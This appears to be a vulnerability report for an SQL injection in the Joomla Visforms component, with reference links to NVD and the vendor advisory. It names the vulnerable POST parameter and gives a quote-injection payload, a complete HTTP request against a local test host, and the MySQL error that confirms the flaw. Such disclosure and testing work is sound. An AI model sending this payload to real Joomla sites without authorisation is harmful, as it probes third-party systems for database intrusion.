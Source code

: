 # SQL Injection Vulnerability - Joomla Visforms Component

## Vulnerability Summary
- **Component**: Joomla Visforms
- **Vulnerability Type**: SQL Injection
- **Parameter**: `addSupportedFieldType[]`
- **Method**: POST
- **Severity**: Critical

## Target Information
- **Endpoint**: `/index.php?task=visforms.send&id=1`
- **Application**: Joomla CMS with Visforms extension

## Vulnerability Details

### Affected Parameter
The vulnerability exists in the `addSupportedFieldType[]` parameter, which appears to be improperly sanitized before being used in a SQL query.

### Payload Used
```
addSupportedFieldType[]=pagebreak'
```

### Request Details
```http
POST /index.php?task=visforms.send&id=1 HTTP/1.1
Host: 127.0.0.1:8081
Content-Type: application/x-www-form-urlencoded
Content-Length: 178

form1name=test&form1vorname=test&postid=1&addSupportedFieldType%5B%5D=pagebreak'&return=aHR0cDovLzEyNy4wLjAuMTo4MDgxLw%2C%2C&86943d7016f8b77ef63479de53175204=1&form1senden=Senden
```

### SQL Error Response
The application returned a MySQL syntax error, confirming the SQL injection vulnerability:

```
Error: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''pagebreak''')
ORDER BY `ordering` asc' at line 3
```

## Technical Analysis

### Error Breakdown
- **Error Code**: 1064 (MySQL syntax error)
- **Injection Point**: The single quote `'` in the payload causes the SQL query to break
- **Query Fragment**: The error reveals part of the SQL structure with `ORDER BY \`ordering\` asc`
- **Response**: HTTP 500 Internal Server Error with detailed MySQL error message

## Proof of Concept Steps
1. Navigate to the Joomla site with Visforms component
2. Submit a form with the malicious payload in the `addSupportedFieldType[]` parameter
3. Observe the SQL error response confirming the injection

## URLs
- https://nvd.nist.gov/vuln/detail/CVE-2023-23753
- https://vi-solutions.de/en/announcements/867-security-announcement-cve-2023-23754
